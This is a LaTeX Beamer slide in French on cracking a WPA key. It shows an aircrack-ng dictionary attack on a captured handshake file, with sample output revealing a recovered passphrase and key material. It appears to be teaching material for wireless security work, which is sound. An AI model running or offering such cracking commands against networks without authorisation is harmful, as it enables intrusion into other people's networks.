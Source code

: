 \documentclass[10pt,sans,usenames,dvipsnames,french,compress]{beamer}
\begin{document}
\subsubsection{Cassage de la clef WPA}
\begin{frame}[fragile]{Cassage de la clef WPA}
	\begin{block}{Commande}
		\vspace{-3mm}
		\begin{lstlisting}[style=Term]
			~# aircrack-ng -w generated_dict.txt psk-01.cap
		\end{lstlisting}
		\vspace{-2mm}
	\end{block}

	\begin{block}{Cassage en cours}<2->
		\vspace{-3mm}
		\begin{lstlisting}[style=Term]
			                          Aircrack-ng 1.5.2

		      [00:00:00] 3852/60999 keys tested (5333.67 k/s)

		      Time left: 10 seconds                                      6.31%

		                       Current passphrase: ASSESSMENT91


		      Master Key     : 66 A8 42 94 79 45 03 6F C9 A1 11 33 AA 52 55 D0
		                       3E 26 2F 55 43 A4 EC 36 E3 13 3C D6 17 B0 96 AC

		      Transient Key  : CE CF A3 E6 2F 92 8C 5E 94 10 3F 8E 10 F9 FC 92
		                       25 D3 FE F2 7F D1 4F 27 C1 51 71 8D F5 75 17 5C
		                       08 F4 5C 2C C8 42 F1 BD 20 3B D7 79 03 2F 05 90
		                       16 E1 E9 92 BB 73 6A 93 6E F8 7A 80 2F 51 81 9E

		      EAPOL HMAC     : FC 99 11 B1 45 5C E1 B6 74 E5 2D CB A5 88 21 E1
		\end{lstlisting}
		\vspace{-2mm}
	\end{block}
\end{frame}
\end{document}
